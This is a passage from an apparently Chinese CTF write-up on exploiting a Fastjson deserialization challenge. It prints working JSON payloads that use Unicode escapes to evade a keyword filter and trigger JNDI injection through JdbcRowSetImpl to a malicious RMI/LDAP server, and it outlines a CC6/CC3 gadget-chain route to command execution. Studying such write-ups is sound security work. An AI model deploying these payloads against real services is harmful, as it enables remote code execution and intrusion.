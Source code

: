 ```java

```

由于过滤了关键字，可以直接用`hex`​ 跟 `unicode`​去绕过即可，本地尝试打一下

```bash
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://127.0.0.1:1099/qv9wk6","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5a492afe6c36102236374632887b8bfbdf12d794.png)​

但打远程的时候发现就不可以，那么仔细去分析一下，其实会发现有以下几个原因

1. fastjson不出网
2. 使用的jdk并不是8u65 而是别的jdk

‍

首先第一个 打不出网的fastjson打`TemplatesImpl`​的话并没有开启私有可访问的参数`Feature.SupportNonPublicField`​,`C3P0`​,`Commons-io`​,`BCEL`​都没有这些依赖，因为依赖非常的清楚只有这些

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-70c370fb4fa8dd786c83fdc203b47c5b12b99d1d.png)​

那么我们再来看看他的`pom.xml`​

```xml
        <dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>4.0.8</version>
            <scope>test</scope>
        </dependency>
```

发现存在一个用于与 `LDAP`​ 目录服务器进行通信的一个依赖，所以考虑了下这绕过高版本jdk(本地我换了jdk8u201)实现jndi注入打CC链，所以直接起一个恶意的jndi返回CC6的恶意序列化值即可打反序列化了

```bash
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:6666/Evail","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4659a059d1e49e39e17dea985e489e3664f1882f.png)​

但是当时的提示如下

![d663d9ac1e16a1d143cdfa4939d3e35](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-39c6c6cb547c30213a0bc14e92dd579525da2389.png)​

只是后半段是用了temp去改了下CC6的后半段用了CC3的加载字节码来加载恶意类罢了，但看代码也没过滤Runtime啊，直接打命令执行弹shell就好了把，为了贴合题目提示要求，也写了下加载字节码的，也能成功弹出计算机
